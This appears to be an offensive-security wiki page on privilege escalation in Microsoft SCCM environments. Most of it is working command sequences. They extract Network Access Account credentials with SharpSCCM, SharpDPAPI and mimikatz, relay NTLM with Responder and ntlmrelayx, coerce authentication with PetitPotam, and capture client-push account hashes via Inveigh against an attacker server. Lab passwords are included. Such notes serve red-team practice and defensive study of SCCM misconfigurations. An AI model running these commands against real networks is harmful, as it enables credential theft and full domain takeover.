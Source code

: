 # Privilege Escalation

Currently there are two different path ways for privilege escalation routes in an SCCM environment:

* Credential harvesting
* Authentication Coercion

## Credential Harvesting

{% embed url="https://www.thehacker.recipes/ad/movement/sccm-mecm#credential-harvesting" %}

### SCCM Credentials

The following SCCM components can contain credentials:

* Device Collection variables
* TaskSequence variables
* Network Access Accounts (NAAs)
* Client Push Accounts
* Application & Scripts (potentially)

### Misconfigured NAA

* SCCM, uses various accounts in a deployment. One of the accounts it uses is called the “Network Access Account” or NAA. The NAA serves a simple role in SCCM: allow a non-domain-joined computer to retrieve software from the SCCM distribution point.
* The NAA does nothing on the host. It simply accesses resources over the network. Therefore, the account should be configured with the least privilege necessary to access the content on the distribution point. It should also be configured such that it does not have interactive logon rights. **Can be misconfigured.**

#### Retrieving the credentials

> The SCCM server sends the NAA policy which includes the credentials for the account to every SCCM client. the NAA policy gets stored on the client and protected by DPAPI. Specifically, the credentials are protected by the system’s DPAPI master key then stored as blobs in the “CCM\_NetworkAccessAccount” class of the “root\ccm\policy\Machine\ActualConfig” WMI namespace. We can manually query these blobs from a high-integriy PowerShell process:

```powershell
# Locally
## Locally From WMI
PS:> Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_NetworkAccessAccount
## Extracting from CIM store
PS:> .\SharpSCCM.exe local secretes disk
## Extracting from WMI
PS:> .\SharpSCCM.exe local secretes wmi
## Using SharpDPAPI
PS:> .\SharpDPAPI.exe SCCM
## Using mimikatz
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm

# Remotely from policy
PS:> .\SharpSCCM.exe get secretes
```

***

**Decypher the WMI blob via DPAPI**

```bash
python3 SystemDPAPIdump.py -creds -sccm 'DOMAIN/USER:Password'@'target.domain.local'
```

* NAA sole purpose is to authenticate to the SCCM server if the machine is not domain join yet. (Normally SCCM client use its machine account)
* Although widely use, NAA are not required, Enhanced HTTP is safer option

#### Secret from endpoint - Exploit

Prerequisite :

* Local admin on a SCCM client

```powershell
# Windows
SharpSCCM_merged.exe get secrets
SharpSCCM_merged.exe local secrets -m wmi # (NAA, Task Sequences, Collection Variables )
# or
SharpDPAPI.exe SCCM

# Linux - Dump DPAPI with impakcets
python3 SystemDPAPIdump.py root.local/workstationadmin:'Alphatango999!'@win10-7.root.local
```

#### NAA via SCCMwtf Technique

Prerequisite :

* Not local admin
* Needs machine account

```bash
# with low privilege user
addcomputer.py 'root.local/low:Alphatango999!' -dc-ip 192.168.1.7

python3 sccmwtf.py DESKTOP-CHV00CWW DESKTOP-CHV00CWW.ROOT.LOCAL sccm2 'ROOT.LOCAL\DESKTOPCHV00CWW$' 'EwlWUXEIN5Bn8ja5sOSqGYeFkl87d4OB'

# the NAA policy is encrypted
cat /tmp/naapolicy.xml

# decrypt it with sccm-decryp.exe
# do it for user and password values !
sccm-decrypt.exe 891300007ADC03BD2E0(...)
```

#### Extraction via Relay

Prerequisites :

* No domain credentials? (only for variant 1: Poisoning )
* Not local admin?
* No fake machine account? ms-DS-MachineAccountQuota = 0
* Only SMB machine account **NetNTLMv2** hash is required (PetitPotam, Printer bug)

```bash
# Variant 1: Poisoning (No creds, work only if poisoning a machine account)
nano Responder.conf # (turn off smb and http)
Responder -I eth0
ntlmrelayx.py -t http://sccm2.root.local/ccm_system_windowsauth/request --sccm --sccm-device test1 --sccm-fqdn sccm2.root.local --sccm-server sccm2 --sccm-sleep 10 -smb2support

# Variant 2: Coercion PetitPotam (Required low priv creds)
ntlmrelayx.py -t http://sccm2.root.local/ccm_system_windowsauth/request --sccm --sccm-device test1 --sccm-fqdn sccm2.root.local --sccm-server sccm2 --sccm-sleep 10 -smb2support

python3 PetitPotam.py 192.168.1.101 win10-7.root.local -u low -p 'Alphatango999!' -d root.local
cat naapolicy.xml

# From any Windows box
# do it for user and password values!
sccm-decrypt.exe 891300007ADC03BD2E0(...)
```

## Authentication Coercion

### Via client push installation

> With a compromised machine in an Active Directory where SCCM is deployed via Client Push Accounts on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. NTLM Capture). The "Client Push Account" usually has local administrator rights to a lot of assets. **In some case, the "Client Push Accounts" could even be part of the Domain Admins group, leading to a complete takeover of the domain.**

### Option 1 : Wait for Client Push Installation

```powershell
## Credential capture using Inveigh 
PS:> .\Inveigh.exe
```

### Option 2 : Prepare Coercion Receiver

```powershell
# On Linux
## Relay using ntlmrelayx.py
python3 examples/ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179

# On Windows
## Credential capture using Inveigh 
.\Inveigh.exe

### Trigger Client-Push Installation
## If admin access over Management Point (MP)
.\SharpSCCM.exe invoke client-push -t <AttackerServer> --as-admin
## If not MP admin
.\SharpSCCM.exe invoke client-push -t <AttackerServer>
```
